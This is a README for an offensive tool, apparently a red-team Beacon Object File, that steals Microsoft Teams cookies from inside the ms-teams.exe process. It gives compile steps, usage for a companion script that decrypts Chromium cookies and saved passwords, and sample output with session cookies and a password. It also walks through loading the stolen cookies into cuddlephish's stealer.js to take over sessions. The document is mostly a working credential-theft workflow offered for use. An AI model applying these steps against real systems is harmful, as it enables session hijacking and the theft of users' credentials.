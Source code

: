 # teams-cookies-bof
Steal cookies for Teams, while running within the `ms-teams.exe` process.

Based on: [https://blog.randorisec.fr/ms-teams-access-tokens/](https://blog.randorisec.fr/ms-teams-access-tokens/).

This tool is heavily based on the [Cookie-Monster-BOF](https://github.com/KingOfTheNOPs/cookie-monster).

The BOF will extract the Encryption Key, locate the `msedgewebview2.exe` processes with a handle to the Cookies file, copy the handle(s) and then filelessly download the target file(s).

Once the Cookies are downloaded, the Python decryption script (see below) can be used to extract those secrets.

Note that the BOF will download all Cookies files from the `msedgewebview2.exe` processes. This has been implemented for simplicity, to avoid detecting the correct current Teams profile for the user. The retrieved encryption key will only work for one of the downloaded Cookies files, which is the current and correct Teams profile for the user.

## BOF Usage

The BOF is supposed to be run within the `ms-teams.exe` Teams process. The BOF takes no arguments.

<img width="934" height="429" alt="poc" src="https://github.com/user-attachments/assets/7c21e100-4c7b-4c1a-8f7e-fff1e34a1e38" />

## Compile BOF 
Ensure Mingw-w64 and make is installed on the Linux prior to compiling.
```
make
```

## Decryption Steps
Install requirements
```
pip3 install -r requirements.txt
```

Usage
```
python3 decrypt.py -h                                                                                                                                                                      
usage: decrypt.py [-h] -k KEY -o {cookies,passwords,cookie-editor,cuddlephish,firefox} -f FILE [--chrome-aes-key CHROME_AES_KEY]

Decrypt Chromium cookies and passwords given a key and DB file

options:
  -h, --help            show this help message and exit
  -k KEY, --key KEY     Decryption key
  -o {cookies,passwords,cookie-editor,cuddlephish,firefox}, --option {cookies,passwords,cookie-editor,cuddlephish,firefox}
                        Option to choose
  -f FILE, --file FILE  Location of the database file
  --chrome-aes-key CHROME_AES_KEY
                        Chrome AES Key
```

Examples:
Decrypt Chrome/Edge Cookies File
```
python .\decrypt.py -k "\xec\xfc...." -o cookies -f ChromeCookies.db

Results Example:
-----------------------------------
Host: .github.com
Path: /
Name: dotcom_user
Cookie: KingOfTheNOPs
Expires: Oct 28 2024 21:25:22

Host: github.com
Path: /
Name: user_session
Cookie: x123.....
Expires: Nov 11 2023 21:25:22
```
Decrypt Chrome Cookies with Chrome AES Key
```
python3 decrypt.py --chrome-aes-key '\x8e\....' -k "\x03\...." -o cuddlephish -f ChromeCookies.db
Cookies saved to cuddlephish_2025-07-03_01-53-57.json
```
Decrypt Chrome/Edge Cookies File and save to json
```
python .\decrypt.py -k "\xec\xfc...." -o cookie-editor -f ChromeCookies.db
Results Example:
Cookies saved to 2025-04-11_18-06-10_cookies.json
```
Import cookies JSON file with https://cookie-editor.com/ 

Decrypt Chome/Edge Passwords File
```
python .\decrypt.py -k "\xec\xfc...." -o passwords ChromePasswords.db

Results Example:
-----------------------------------
URL: https://test.com/
Username: tester
Password: McTesty
```
Decrypt Firefox Cookies and Stored Credentials: <br>
https://github.com/lclevy/firepwd

### CuddlePhish Support
added cuddlephish option to the decrypt script which should support using the cookie with https://github.com/fkasler/cuddlephish

```
# Decrypt Cookies
python3 decrypt.py -k "\xec\xfc..." -o cuddlephish -f ChromeCookies.db

# Clone Project
cd 
git clone https://github.com/fkasler/cuddlephish
cd cuddlephish

# Install Dependencies Example on Debian 
curl -fsSL https://deb.nodesource.com/setup_23.x -o nodesource_setup.sh
sudo -E bash nodesource_setup.sh
sudo apt-get install nodejs
npm install

# Import Cookies
cp ~/cookie-monster/cuddlephish_YYYY-MM-DD_HH-MM-SS.json .
node stealer.js cuddlephish_YYYY-MM-DD_HH-MM-SS.json
```

## References
Stealing Microsoft Teams access tokens in 2025:
https://blog.randorisec.fr/ms-teams-access-tokens/ <br>
Cookie-Monster-BOF:
https://github.com/KingOfTheNOPs/cookie-monster <br>
Cookie Webkit Master Key Extractor:
https://github.com/Mr-Un1k0d3r/Cookie-Graber-BOF <br>
Fileless download:
https://github.com/fortra/nanodump <br>
